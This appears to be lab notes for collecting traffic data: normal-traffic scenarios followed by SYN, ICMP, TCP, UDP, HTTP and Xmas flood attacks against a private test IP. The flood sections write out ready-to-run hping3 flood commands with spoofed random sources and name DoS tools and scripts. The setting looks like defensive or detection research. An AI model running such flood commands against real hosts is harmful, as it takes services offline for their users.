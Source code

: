 hping3 -> sudo apt install hping3 -y / sudo yum -y install hping3

Scenario
Benchmarking
a. Apache Bench
b. Apache JMeter
c. Iperf

1. Normal
   a. Video (UDP) + Audio (TCP) Streaming -> 2 / 3 Video yang berbeda ~10 menit
   b. Random request generator -> 11 endpoint (flask + nodeJS), 5 menit, 2 / 3 instance
   c. hping3 normal 5 - 10 menit
   d. ping -W 0.1 192.168.29.128
   e. ping 192.168.29.128 -n 300 (5 menit)

2. SYN Flood
   a. hping3
   a. sudo hping3 -S --flood -V -p 3002 192.168.29.128
   b. sudo hping3 192.168.29.128 -q -n -d 120 -S -p 3002 --flood --rand-source
   c. AllInOne.py
   d. ICMP_flood2.py

3. ICMP Flood
   a. hping3
   a. sudo hping3 --flood –V –i eth0 192.168.29.128
   b. hping3 --icmp --flood 192.168.29.128
   c. ICMP_flood.py
   d. ICMP_flood2.py
   e. hping3 -V -1 -d 1400 --faster 192.168.29.128

4. TCP Flood
   a. TCP SYN -> TCP_flood.py
   b. TCP Get -> TCP_flood2.py
   c. TCP Get -> TCP_flood3.py
   d. RavenStrom

5. UDP Flood
   a. UDP_flood.py
   b. RavenStrom

6. HTTP Flood
   a. GoldenEye
   b. AllInOne.py
   c. HTTP_flood.py

7. Xmas Flood
   a. ICMP_flood2.py
